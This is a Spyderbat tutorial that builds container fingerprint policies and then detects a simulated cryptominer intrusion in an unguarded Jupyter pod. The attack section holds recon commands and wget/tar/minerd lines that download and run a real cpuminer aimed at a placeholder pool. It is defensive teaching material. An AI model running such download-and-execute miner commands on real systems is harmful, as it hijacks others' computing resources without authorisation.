

# Introduction to Policies — Cryptominer Attack

> This Scenario is loosely based on the [Silent Bob container attack](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed).

## Setup

For this scenario, we have set up an unguarded Jupyter Notebook pod within the cluster. To start, let's see it in use, and create some "normal" activity that we will use later to generate a baseline fingerprint. After running the access script (`./access.sh`), you can reach the notebook from <a href="http://localhost:1234" target="_blank">localhost:1234</a>.

This is a standard Jupyter notebook, running the `jupyter/minimal-notebook` docker image. Select the Python 3 notebook, and run some commands in it.

> **Tip:**
> 
> Use the play button or the keyboard shortcut Ctrl-Enter to run code within a code block in the Jupyter Notebook.

```py
print("Hello world!")
```

```sh
!pip install --upgrade pip setuptools wheel
```

Spyderbat is using the activity we just created to define a "fingerprint" for this container. A container fingerprint tracks all of the processes and connections created in a container during normal operation and can be used to define [Guardian Policies](https://docs.spyderbat.com/concepts/guardian). These policies are used by Spyderbat to detect when anomalous activity occurs, either alerting you or even killing the pod in response, depending on the configuration.

Let's take a look at these fingerprints in the Spyderbat UI. Navigate to the Fingerprints page (listed under Guardian in the navigation sidebar). This page lists all of the fingerprints created by Spyderbat for your account, one for each image you have deployed. Using the search bar in the top right, search for "Jupyter" to narrow down the list. To narrow the scope further, we can select the "cryptominer" namespace and "active" status. From there, select the fingerprints that we want (the `minimal-notebook` image), and click "Create Policy" on the bottom bar.

This will open the Policy creation window, allowing you to preview the policy created from the selected fingerprints. If necessary, you could edit the processes and connections that were autogenerated here. For our purposes, the autogenerated data should be good enough, so select "Next". Give the policy a name, but leave it in audit mode for now. Audit mode means the policy will be tracked, but will not actually create any responses, allowing for testing.



Let's test out the policy by running a new command that is not present in the policy. Navigate back to the Jupyter Notebook interface and open a new "terminal" tab instead of Python. This alone should be enough to be detected, but let's run `ls` just to make sure we have something to look for. It will take a minute or two for the data to appear in the console, but we can navigate to the Guardian Policies page while we are waiting.

This page shows all of the existing (container) policies in your account. Select "View" on the new policy to open the Policy management window. Here, you can see the existing policy as well as all of the detected deviations. It also allows for editing the policy, such as setting it to enforce mode or adding new processes and connections to the policy.

Navigate to the "Deviations" tab. If you do not already see a list of deviations, refresh the page to ensure you have the latest data. After selecting all of the deviations, your policy graph should look similar to the one below.


Now that we know the policy works, let's put it in enforce mode. De-select the deviant processes, switch to the "Policy Info" tab, select "Enforcing", and click Save. Since we left the default actions enabled, this policy will not kill deviant pods, only create red flags for deviant processes and connections.

## Attack

Next, let's simulate a malicious use of the Jupyter Notebook. Switch back to the Jupyter Notebook terminal, and run some exploration commands:

```
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ id
uid=1000(jovyan) gid=100(users) groups=100(users)
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ sudo -l
[sudo] password for jovyan: 
Sorry, try again.
[sudo] password for jovyan:^C 
sudo: 1 incorrect password attempt
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ ping -n 3 sourceforge.net
bash: ping: command not found
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ curl sourceforge.net > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
(base) jovyan@jupyter-notebook-75ffff97fd-r4xxg:~$ 
```

Looks like we don't have sudo access, there aren't many tools (like ping), but we can connect to SourceForge. Luckily, that is all we need to install a crypto miner. First, we can check that there aren't already any crypto miners installed on this system (given how poor the security would be if this were truly deployed):

```sh
ps -aux
```

Looks like we are alone. So, we can now install the miner:

```sh
wget https://sourceforge.net/projects/cpuminer/files/pooler-cpuminer-2.5.1-linux-x86_64.tar.gz/download
tar -xzf download
./minerd --url fakeminingpool.example.com -u ME -p passwd
```

> Note: this is a real cryptominer, but is not configured to connect to a real service.

## Investigation

Now that we have executed the attack, let's go back to the policy deviations page. Select "View" on the policy, and add all of the deviations to the graph. Here, we can see all of the different commands and connections that did not fit into the existing fingerprint. 


Select "Start Process Investigation" on the bottom to see a more detailed view of the tracked deviations. Here, we can see a causal view of all of our attack actions within the container.


## Cleanup

To ensure that the flags generated by this policy don't interfere with the other demos, let's disable the Guardian policy. Navigate back to the Policies page, and view the policy. Turn off the "Enabled" switch in the Policy Info tab, and save the policy.

## Further Reading

- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)
- ['Silent Bob' Container Attack Exposed - Spyderbat Blog](https://www.spyderbat.com/blog/silent-bob-container-attack-exposed)
